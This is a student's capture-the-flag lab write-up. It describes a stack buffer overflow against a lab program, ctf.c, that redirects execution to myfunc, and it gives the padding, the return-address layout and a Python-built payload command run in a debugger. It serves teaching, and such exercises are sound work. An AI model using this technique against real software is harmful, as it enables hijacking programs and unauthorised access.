






# 21110755, Phạm Văn Cao

#Lab#2 Conduct attack on ctf.c

In this lab, we will exploit a buffer overflow vulnerability in the ctf.c program. Specifically, we will take advantage of the vuln function by overwriting stack values to redirect the program’s execution to the myfunc function, bypass its checks, and retrieve the flag.

we have stack frame:

| Stack frame             | Replace value                                                          | Hình ảnh               |
| ----------------------- | ---------------------------------------------------------------------- | ---------------------- |
| `buf + EBP`             | Replace with 104 'a' characters                                        |  |
| Return address          | Replace with the address of the myfunc function                        |  |
| Tạo file                | Create flag1.txt to pass the check in myfunc                           |  |
| Parameter `s` (4 bytes) | Replace with the address of the exit function to exit myfunc           |  |
| 8 bytes                 | Replace with the values of p and q to pass the if conditions in myfunc |  |

The following command will trigger the buffer overflow using Python to craft the payload, then run the ctf program:

r $(python -c "print('a'\*104+'\x1b\x85\x04\x08'+'\xe0\x83\x04\x08'+'\x11\x12\x08\x04'+'\x62\x42\x64\x44')")

After executing the above command, we will see that the myfunc function is successfully reached, and the flag is retrieved after bypassing the conditions:

